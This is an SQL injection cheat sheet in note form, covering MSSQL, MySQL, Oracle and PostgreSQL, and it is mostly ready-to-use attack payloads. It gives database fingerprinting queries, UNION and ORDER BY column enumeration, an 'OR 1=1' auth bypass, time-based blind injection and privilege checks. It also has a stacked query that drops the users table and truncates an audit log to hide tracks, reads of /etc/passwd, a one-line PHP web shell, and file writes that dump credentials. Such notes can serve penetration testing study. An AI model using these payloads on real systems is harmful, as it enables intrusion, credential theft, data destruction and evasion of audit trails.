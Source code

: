[[mssql]] [[mysql]] [[oracle]] [[postgresql]]
#sql
#cheatseet 
https://portswigger.net/web-security/sql-injection/cheat-sheet

https://securiumsolutions.com/sql-injection-by-double-query-securiumsolutions/
##### Detect type and version
mssql, mysql - `select @@version`
oracle - `select BANNER from v$version`
postgresql - `select version()`

#### Get database
mysql - database()
postgresql - current_database()

#### Remove audit logs via SQL chaining
```sql
Smith'; DROP TABLE users; TRUNCATE audit_log; --
```
##### Detect number of original query columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
etc. until error occurs
or
until success
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--`
```
##### Useful queries
* `SELECT * FROM information_schema.tables`
* `SELECT table_name FROM information_schema.tables`
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file
```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```